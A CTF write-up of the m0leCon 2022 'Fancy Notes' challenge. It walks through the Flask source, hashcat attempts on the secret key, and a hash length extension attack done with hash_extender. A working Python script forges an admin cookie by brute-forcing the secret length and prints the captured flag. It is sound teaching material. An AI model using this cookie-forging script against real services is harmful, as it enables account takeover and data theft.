


# m0leCon teaser 2022: Fancy Notes



As part of the [WolvSec](https://wolvsec.org/) team, I worked on the web/crypto/warmup challenge called "Fancy Notes".

The challenge was taken down before I got around to creating this writeup so this will be text heavy.

The web app allows you to register/login and then create/view private notes.  The notes can have a title/body and an optional image.

You are given the source and you can tell that the flag is in the body of a note created by the "admin" account.

## Recon

I started by just playing around with the app and trying standard things like these in the register/login/note endpoints:

- SQL injection
- template injection


The source tree looks like this:




In studying the source, these are some relevant snippets:

### The User model
```
class User(db.Model):
    id = db.Column(db.Integer, primary_key=True)
    username = db.Column(db.String(80), unique=True, nullable=False)
    password = db.Column(db.String(256), nullable=False)
    locale = db.Column(db.String(3), nullable=False)

    def __repr__(self):
        return '<User %r>' % self.username

```

### How the admin User is generated along with the flag
```
def init_db(db):
    username = "admin"
    password = random_string(20)

    if User.query.filter_by(username=username).count() > 0:
        return

    user = User(username=username, password=hashlib.sha256(
        password.encode()).hexdigest(), locale='en'
    )
    note = Note(title="flag", body=FLAG)
    user.notes.append(note)
    db.session.add(user)
    db.session.commit()
```

### How the session cookie is generated after login

```
    @app.route('/login', methods=['POST', 'GET'])
    def login():
        if request.method == 'GET':
            return render_template('login.html')
        if request.method == 'POST':
            form_data = request.form

            error = validate_login(form_data)
            if error:
                return render_template('login.html', error=error)

            user = User.query.filter_by(username=form_data['username'], password=form_data['password']).first()
            if user is None:
                return render_template('login.html', error='Wrong credentials')

            response = make_response(redirect("/notes"))
            response.set_cookie('user', generate_cookie(user))
            return response

def generate_cookie(user):
    user_string = deserialize_user(user)
    signature_string = hashlib.sha256(
        (SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest()
    cookie = base64.b64encode(
        (f'{user_string}|{signature_string}').encode('raw_unicode_escape')).decode()
    return cookie


def deserialize_user(user):
    values = []
    for k in ["username", "locale"]:
        values.append(f'{k}={user.__dict__[k]}')
    return ','.join(values)
```


### How the cookie is validated and notes are retrieved

```
    @app.route('/notes', methods=['POST', 'GET'])
    def notes():
        if request.method == 'GET':
            user = get_user()
            if not user:
                return redirect("/login")
            notes = Note.query.filter(
                Note.user.has(username=user['username'])
            ).all()
            return render_template('notes.html', user=user, notes=notes)

def get_user():
    if not 'user' in request.cookies:
        return None

    cookie = base64.b64decode(request.cookies.get(
        'user')).decode('raw_unicode_escape')
    assert len(cookie.split('|')) == 2
    user_string = cookie.split('|')[0]
    signature_string = cookie.split('|')[1]

    if hashlib.sha256((SECRET_KEY + user_string).encode('raw_unicode_escape')).hexdigest() != signature_string:
        print("nope")
        return None

    user = serialize_user(user_string)
    return user

def serialize_user(user_string):
    user = dict()
    for kv in user_string.split(','):
        k = kv.split('=')[0]
        v = kv.split('=')[1]
        user[k] = v
    return user

```

**Note**: This source seems to have the serialize_user and deserialize_user terms backwards. Normally serialize means to take an in-memory object and turn it into an on-disk or over-the-wire format and deserialize is the opposite.


## Cookie Thoughts

From the above source, you can see that the `user` cookie contains a base64 encoded value of a string like this:

`username=samb,local=en|<sha256-digest>`


The digest is created by taking the sha256 hash of a string like:

SECRET_KEY + 'username=sam,local=en'

If we knew the SECRET_KEY, we could forge our own cookie with `username=admin` and we'd easily get their notes.

## SECRET Thoughts Part 1

First obvious thing to try is to see if the SECRET_KEY is in the rockyou.txt password list.

I won't go into details here but this did not work.  The rough approach is to create a `hash.txt` file containing a line like:

```
90e7222ed79f036d2a3a39dd96e3c07d73678328e942d9489670a664822d2de7:username=samb,locale=en
```

and then running:

`hashcat -a 0 -m 1410 hash.txt rockyou.txt`

The 1410 mode is: ` 1410 | sha256($pass.$salt)`

This will try all the words in `rockyou.txt` like this:

"`<word-to-try>`username=samb,locale=en"

compute the sha256 hash and see if it is equal to the hash in `hash.txt`.

This did not find a match.

## SECRET Thoughts Part 2

It is also possible that the secret is not in `rockyou.txt` but is still a relatively short string.

Again, you can use hashcat to try brute forcing all character combinations.

I won't give the syntax here but I ran this for all possible secrets of length <=7 and then stopped it.


## Do we need the SECRET?

At this point, I recalled a CTF challenge from the past where the solution involved not knowing the secret at all BUT still being able to forge a legit cookie value that would be accepted by the server.

Enter: `Hash Length Extension Attack`

This [article](https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks) is a must read if you want to understand this attack.

The general idea is that a hash algorithm is like a black box with a bunch of gears inside.

You feed it bits from the input you are hashing and all the gears move around in strange ways.

When it has digested all the input bits, you ask the box to reveal the state of all of its gears and write them down in order.  That is the hash.

If it is true that ALL of the gears become part of the hash THEN it means that we can reconsitute the state of all the gears in the black box simply by the information in the hash string.

That means, we can setup the gears as they were before and then feed in more bits of our choosing.  We can feed in as many bits as we want and then, once again, stop and write down all the gears in the form of a new hash.

If done properly, the hash you generated will be the accepted by the server EVEN THOUGH we have no idea what the `SECRET_KEY` is.

There are some fiddly bits to deal with like knowing the length of the `SECRET_KEY` prefix and dealing with padding.

**Note**: Not all hash algorithms are exploitable by this attack.  The ones with internal gears that are NOT emitted into the hash are examples.

## What do we want to append?

Assuming we have the power to append anything we want after `locale=en` in the base64 decoded `user` cookie:

`username=samb,locale=en|<sha256-digest>`

What would we want to append?

This is where studying the code pays off again.

This code:
```
def serialize_user(user_string):
    user = dict()
    for kv in user_string.split(','):
        k = kv.split('=')[0]
        v = kv.split('=')[1]
        user[k] = v
    return user
```

Will split the left side of the decoded cookie on the comma character and then BLINDLY set the key=values it finds.

Normally it is reading pairs like:
```
username=samb
locale=en
```

If we can append `,username=admin`  then it'll endup processing

```
username=samb
locale=en
username=admin
```

and so the 3rd line will end up ovewriting the first line and we'll be admin!!

## Tools to the rescue

The author of the above article has written a very nice tool called `hash_extender`.


You run it like this:

```
hash_extender --data 'username=samb,locale=en' --secret 10 --append ',username=admin' --signature 90e7222ed79f036d2a3a39dd96e3c07d73678328e942d9489670a664822d2de7 --format sha256 --out-data-format hex
```

and it outputs like this:

```
Type: sha256
Secret length: 10
New signature: 9ff0f472fd0f55147eb9c9aefff767fdae03977c209678fb69939ab353be96a5
New string: 757365726e616d653d73616d622c6c6f63616c653d656e800000000000000000000000000000000000000000000000000000000001082c757365726e616d653d61646d696e
```

Here, we are guessing that the SECRET_KEY is of length 10.  We actually have no idea how long it is. (more on that later)

It outputs the new signature along with the new string in hex.

Why hex?

Due to how padding works, the algorithm needs to insert some special values after the given string and before the text you want to append.

Decoded, this new string would look something like this (with unprintable chars shown as dots):

`username=samb,locale=en...............................,username=admin`

Notice we are lucky that there is a `locale` property (which the app doesn't actually use) that can soak up the junk characters.

To attempt to use this to get the flag, we'd then build up a string like this with the pipe and the new hash:

`username=samb,locale=en...............................,username=admin|9ff0f472fd0f55147eb9c9aefff767fdae03977c209678fb69939ab353be96a5`

Then we'd base64 encode it and make a request to the /notes endpoint with this as our `user` cookie.

If our guess that the SECRET_KEY is of length 10 is wrong, then the server will compute a different hash for our string and return a redirect to /login.

But, if we somehow have the length correct, then it'll compute the exact same hash as the one we are sending and it will trust it and build up a User object as `admin`.

Since we have no idea of the actual SECRET_KEY length, and this is too tedius to do by hand (especially with non-printable characters at play), we need some automation.

## Python to the rescue

I wrote this program:

```
import base64
import binascii
import os
import requests

def tryCookie(b64CookieString):
    response = requests.get('https://fancynotes.m0lecon.fans/notes',
                    headers={
                        'Cookie': 'user=' + b64CookieString
                    },
                    allow_redirects=False
                    )

    if response.status_code == 200:
        print(b64CookieString)
        print(response.text)


def tryOne(secretLength):
    print('trying secretLength: ', secretLength)


    # https://blog.skullsecurity.org/2012/everything-you-need-to-know-about-hash-length-extension-attacks
    cmd = f"hash_extender --data 'username=samb,locale=en' --secret {secretLength} --append ',username=admin' --signature 90e7222ed79f036d2a3a39dd96e3c07d73678328e942d9489670a664822d2de7 --format sha256 --out-data-format hex"
    output = os.popen(cmd).read()
    lines = output.split('\n')
    # print(lines)

    newSignature = lines[2].split(' ')[2]
    hexEncodedString = lines[3].split(' ')[2]

    stringBytes = binascii.unhexlify(hexEncodedString)
    # print('stringBytes', stringBytes)
    rawCookie = stringBytes + b'|' + newSignature.encode('utf-8')
    # print(rawCookie)

    b64CookieBytes = base64.b64encode(rawCookie)
    b64CookieString = str(b64CookieBytes, 'utf-8')
    # print(newSignature)
    # print(b64CookieString)

    tryCookie(b64CookieString)


for secretLength in range(1, 100):
    tryOne(secretLength)
```

This automates what was described earlier and tries various values for the SECRET_KEY length.

It calls the utility, parses its output, builds the new user cookie value and makes an http request to /notes.

If we get back a 200, then we know we guessed the right length.  In that case, the flag should be in the http response.

Indeed this stops with this output:

```
trying secretLength:  19
<!DOCTYPE html>
<html>
  <head>
    <meta charset="utf-8" />
    <title>Your fancy notes</title>
...
  <h2>admin's notes</h2>
  <div class="row">

    <div class="col-4 mb-4">
      <div class="card text-dark">

        <div class="card-body">
          <h5 class="card-title">flag</h5>
          <p class="card-text">ptm{pleaseD0NOTUseCr3am1nCarbon4r4!}</p>
        </div>
      </div>
    </div>

  </div>
</div>
</main>


  </body>
</html>
```

If hash length extension is new to you, definitely read the very nice artice linked above.

Thanks to the folks at m0leCon for hosting this CTF!